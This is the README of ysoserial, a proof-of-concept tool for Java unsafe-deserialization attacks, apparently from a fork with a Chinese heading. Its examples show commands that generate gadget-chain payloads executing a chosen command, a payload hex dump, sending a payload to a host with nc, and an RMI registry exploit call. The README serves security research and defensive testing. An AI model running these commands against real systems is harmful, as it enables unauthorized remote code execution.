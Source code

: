 
# ysoserial apache-commons jar包的漏洞,可以导致远程攻击,该项目是远程攻击测试项目.

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![](https://github.com/frohoff/ysoserial/blob/master/ysoserial.png)

## Description

Released as part of AppSecCali 2015 Talk ["Marshalling Pickles: how deserializing objects will ruin your day"](http://frohoff.github.io/appseccali-marshalling-pickles/) 

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java 
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of objects. 
The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers 
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$ java -jar ysoserial-0.0.1-all.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'
        Available payload types:
                CommonsCollections1
                CommonsCollections2
                Groovy1
                Spring1           
```

## Examples

```shell
$ java -jar ysoserial-0.0.1-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:
       
$ java -jar ysoserial-0.0.1-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 < groovypayload.bin

$ java -cp ysoserial-0.0.1-all.jar ysoserial.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from the "releases" section.

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request
